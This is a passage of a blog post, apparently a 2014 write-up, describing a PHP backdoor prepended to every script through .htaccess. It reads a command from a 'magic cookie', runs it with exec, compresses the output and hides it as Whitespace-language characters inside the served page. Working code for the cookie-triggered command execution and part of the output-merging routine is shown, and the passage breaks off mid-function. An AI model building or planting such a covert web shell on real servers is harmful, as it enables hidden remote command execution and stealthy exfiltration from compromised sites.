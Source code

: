 That took care of ensuring that my `wcc_merge_output` function will run at the very end of any script.

Now it&#8217;s time to play with the output buffer and do the whitespace magic. I&#8217;ve placed `ob_start` on my `wcc_init` function that is prepended by `.htaccess` so as soon as script starts, output buffering is enabled.

If the magic cookie key is set, it will run the command with `exec` (for testing purposes, you can change to whichever method you want), `gzdeflate`-it and convert to whitespace language.

I won&#8217;t comment on the actual code responsible to converting from <acronym title="American Standard Code for Information Interchange">ASCII</acronym> to Whitespace but FYI, it basically converts each char to binary, pushes each character to Whitespace Stack, then adds &#8220;print char from stack&#8221; N times, where `N = len(string)` and finally adds the &#8220;end program&#8221; sentence. 

_You can read more about the internals of Whitespace Language on the <a href="http://compsoc.dur.ac.uk/whitespace/tutorial.php" target="_blank">official page&#8217;s tutorial</a>. If you&#8217;re interested, you can check the `<a href="https://github.com/jseidl/whitespace/blob/master/wcc/wcc.php#L178" target="_blank">wcc_whitespace_print_string</a>` function source-code._

The `wcc_init` function ended up looking like this:

{{< highlight php >}}
function wcc_init() {
	if (
		!isset($_COOKIE[WCC_COOKIE_KEY]) ||
		empty($_COOKIE[WCC_COOKIE_KEY])
	) return false;

	ob_start();

	$cmd_output = wcc_exec($_COOKIE[WCC_COOKIE_KEY]);

	register_shutdown_function('wcc_shutdown', $cmd_output);

	return true;

}//end :: wcc_init
{{< /highlight >}}

When the original script finishes its job and execution is passed to my shutdown function, `wcc_merge_output` will grab the contents of the output buffer, merge, display and exit.

{{< highlight php >}}
function wcc_merge_output($whitespace_payload) {

	$page_content = ob_get_contents();
	ob_end_clean();

	# "Sanitize" page content and tokenize
	# ... snip ...

	# Build Content
	$final_content = wcc_build_content($whitespace_tokens, $content_tokens);


 [1]: https://github.com/jseidl/whitespace/blob/master/wcc/wcc.php#L92
 [2]: https://wroot.org/wp/wp-content/uploads/2014/02/w2.png
 [3]: https://wroot.org/wp/wp-content/uploads/2014/02/w1.png